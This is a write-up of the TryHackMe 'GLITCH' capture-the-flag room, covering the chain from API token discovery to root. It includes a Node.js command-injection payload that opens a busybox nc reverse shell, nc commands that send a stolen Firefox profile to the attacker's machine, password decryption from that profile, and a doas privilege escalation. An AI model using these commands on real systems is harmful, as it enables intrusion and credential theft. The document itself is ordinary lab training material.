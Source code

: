 # GLITCH CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **GLITCH** CTF challenge on [TryHackMe](https://tryhackme.com/room/glitch). 
---

after scanning we see open port: 80

![scn](imgs/scn.png "scn")

we see a js function with /api/access

![js1](imgs/js1.png "js1")

checking this folder we found token after decodeing from base64

![api](imgs/api.png "api")

we can change the cookie to our token to see other website

feroxbuster scan

![ferox](imgs/ferox.png "ferox")

there is nothing helphul in /secret

there is another location `/api/items`

if we use POST instead of GET we got a message

![post](imgs/post.png "post")

we can test the `POST /apt/items?FUZZ=test`

![fuzz2](imgs/fuzz2.png "fuzz2")

we found valid parameter `cmd` 

![fuzz](imgs/fuzz.png "fuzz")

there is error coming from NodeJs

![node](imgs/node.png "node")

we can use this payload to gain reverse shell `require(%22child_process%22).exec(%22busybox%20nc%2010.14.X.X%204445%20-e%20/bin/bash%22)`

![rs](imgs/rs.png "rs")

we got access as user 

![rs2](imgs/rs2.png "rs2")

and we can grab user flag

![user](imgs/user.png "user")

in `/home/user` there is hidden firefox folder which isnt common, we can use tar to make archive and the send to our machine to study

```
tar -czvf folder.tar.gz .firefox
```

now we can transfer the file, python server didnt seem to work so i used nc

```
$ nc -lvnp 1234 > folder.tar.gz       (attacker)
$ nc 10.14.X.X 1234 < folder.tar.gz   (victim)
```

now that we have firefox folder, i found a script to decrypt passwords from profiles `https://github.com/unode/firefox_decrypt/blob/main/firefox_decrypt.py` 

```
/usr/bin/python3 firefo_password.py /home/kamil/CTF/THM/glitch/.firefox
```

![ff](imgs/ff.png "ff")

we found void password, checking if the same password will work for system

![void](imgs/void.png "void")

using linpeas we found SUID for doas so we can use

![lin](imgs/lin.png "lin")

```
/usr/local/bin/doas -u root /bin/bash
```

we got root access and root flag 

![root](imgs/root.png "root")

# MACHINE PWNED
